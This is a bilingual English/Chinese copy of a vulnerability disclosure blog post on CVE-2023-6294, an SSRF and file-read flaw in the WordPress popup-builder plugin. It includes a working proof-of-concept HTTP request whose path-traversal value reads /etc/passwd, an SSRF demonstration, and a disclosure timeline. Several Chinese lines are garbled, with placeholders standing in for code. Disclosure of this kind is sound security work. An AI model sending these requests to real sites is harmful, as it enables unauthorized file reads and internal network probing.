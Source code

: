 

# CVE-2023-6294：popup-builder <= 4.2.6 Admin+ SSRF & File Read|塞巴斯蒂安尼夫 -0day.work

In this blog post I'll describe the details of CVE-2023-6294, a local file inclusion in WordPress' popup-builder plugin.  
在这篇博客文章中，我将描述 CVE-2023-6294 的细节，这是 WordPress 的 popup-builder 插件中的本地文件包含。

First of all, this vulnerability is only exploitable in *multi-site* WordPress installations with at least subsite administrator privileges.  
首先，此漏洞仅可在至少具有子站点管理员权限的多站点 WordPress 安装中利用。  
Successful exploitation can lead to SSRF and arbitrary file read.  
成功利用该漏洞可导致 SSRF 和任意文件读取。

# Theory 理论

Let's dive into the code to get a deeper understanding.  
让我们深入代码以获得更深入的理解。

The API action `sgpb_import_subscribers` takes the parameter `importListURL` and eventually passes it to `wp_remote_get()` and `file()`.  
API 操作#0 #接受参数#1 #，并最终将其传递给#2 #和#3 #。

In `popup-builder/com/classes/Ajax.php` the constructor calls `$this->actions()`, which first evaluates the user's permissions using `$allowToAction = AdminHelper::userCanAccessTo();` and then registers the API action `add_action('wp_ajax_sgpb_import_subscribers', array($this, 'importSubscribers'));`.  
在#0 #中，构造函数调用#1 #，它首先使用#2 #评估用户的权限，然后注册 API 操作#3 #。

`userCanAccessTo()` is defined in `popup-builder/com/helpers/AdminHelper.php` and checks if the requesting user has the correct permissions and roles to access the API. So far, so good.  
`userCanAccessTo()` 在#1 #中定义，用于检查请求用户是否具有访问 API 的正确权限和角色。到目前为止，一切顺利。

Back in `Ajax.php`, the API's callback `importSubscribers()` is defined, where it first validates the nonce (`check_ajax_referer(SG_AJAX_NONCE, 'nonce');`) and then defines `$fileURL`: `$fileURL = isset($_POST['importListURL']) ? sanitize_text_field($_POST['importListURL']) : '';`  
回到#0 #，定义了 API 的回调#1 #，它首先验证随机数（#2 #），然后定义#3 #：#4 #  
Interestingly, there is a call to `sanitize_text_field`, but this WordPress built-in function does not sanitize the string for path traversal issues, only cross-site scripting and others.  
有趣的是，有一个对 `sanitize_text_field` 的调用，但是这个 WordPress 内置函数并没有清理路径遍历问题的字符串，只有跨站点脚本和其他问题。

The function then continues to capture the output buffer of the `importConfigView.php`:  
然后，该函数继续捕获 `importConfigView.php` 的输出缓冲区：

```php
ob_start();
require_once SG_POPUP_VIEWS_PATH.'importConfigView.php';
$content = ob_get_contents();
ob_end_clean();
```

This file is at `popup-builder/public/views/importConfigView.php` and it first passes `$fileURL` to `getFileFromURL`, which in turn will call `wp_remote_get()`: `$fileContent = AdminHelper::getFileFromURL($fileURL);`.  
这个文件位于 `popup-builder/public/views/importConfigView.php` ，它首先将 `$fileURL` 传递给 `getFileFromURL` ，然后调用 `wp_remote_get()` ： `$fileContent = AdminHelper::getFileFromURL($fileURL);` 。

Further, it executes the following line to read from `$fileURL`:  
此外，它执行以下行从 `$fileURL` 读取：  
`$csvFileArray = array_map('str_getcsv', file($fileURL));`

With that, the former allows to send HTTP requests to the URL provided in `importListURL` resulting in server-side request forgery (SSRF) and the latter allows to read arbitrary files by setting it to a file path.  
因此，前者允许向 `importListURL` 中提供的 URL 发送 HTTP 请求，导致服务器端请求伪造（SSRF），后者允许通过将其设置为文件路径来读取任意文件。

# Proof of Concept 概念验证

To see the vulnerabilities in action, first configure a multi-site WordPress installation with a separate subsite and non-superadmin account.  
要查看实际漏洞，请首先使用单独的子站点和非超级管理员帐户配置多站点 WordPress 安装。

Login as the subsite administrator and navigate to the popup-builder plugin in the menue. Create a dummy subscription, so that it shows up on the Import/Export settings page.  
以子站点管理员身份登录，然后导航到菜单中的弹出构建器插件。创建一个虚拟订阅，以便它显示在导入/导出设置页面上。

When submitting the import form, the following request will be send to the WordPress backend:  
当提交导入表单时，以下请求将被发送到 WordPress 后端：

```plain
POST /site2/wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Length: 156
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: [cookie]
Connection: close

action=sgpb_import_subscribers&nonce=7ab37e2ddd&popupSubscriptionList=8&importListURL=<import-path>&beforeSend=
```

When the `importListURL` is set to `../../../../../../../../../../../../../../../../etc/passwd`, the output will contain the first line of the `/etc/passwd`'s contents:  
当 `importListURL` 设置为 `../../../../../../../../../../../../../../../../etc/passwd` 时，输出将包含 `/etc/passwd` 内容的第一行：

```plain
<div class="subFormItem__title">
	root:x:0:0:root:/root:/bin/bash				
</div>
```

[![popup-builder-path-traversal.png](assets/1706773853-f640019e372f909f2e8c0167a93e1545.png)](https://0day.work/content/images/2023/12/popup-builder-path-traversal.png)

Similarly, when we set `importListURL` to an URL, we can exploit the SSRF. For example, we start a simple HTTP server on localhost (`python -m http.server 1337`) and send a request to it with `importListURL=http://localhost:1337`. The output is:  
同样地，当我们将 `importListURL` 设置为 URL 时，我们可以利用 SSRF。例如，我们在 localhost（ `python -m http.server 1337` ）上启动一个简单的 HTTP 服务器，并使用 `importListURL=http://localhost:1337` 向其发送请求。输出为：

```plain
<div class="subFormItem__title">
	Hacked			
</div>
```

[![popup-builder-ssrf.png](assets/1706773853-22bd9c4f219a4197da4f55eb7d9e5d41.png)](https://0day.work/content/images/2023/12/popup-builder-ssrf.png)

# Timeline 时间轴

-   2023.06.28 - Initial discovery  
    2023.06.28 -首次发现
-   2023.07.03 - Report to plugin developers  
    2023.07.03 -向插件开发人员报告
-   2023.11.22 - Report to WPScan to assign CVE-ID  
    2023.11.22 -向 WPScan 报告以分配 CVE-ID
-   2023.11.24 - Vulnerability acknowledged and CVE assigned  
    2023.11.24 -确认漏洞并分配 CVE
-   ~ 2023.12.28 - New version released  
    ~ 2023.12.28 -新版本发布
-   2024.01.31 - Public disclosure  
    2024.01.31 -公开披露
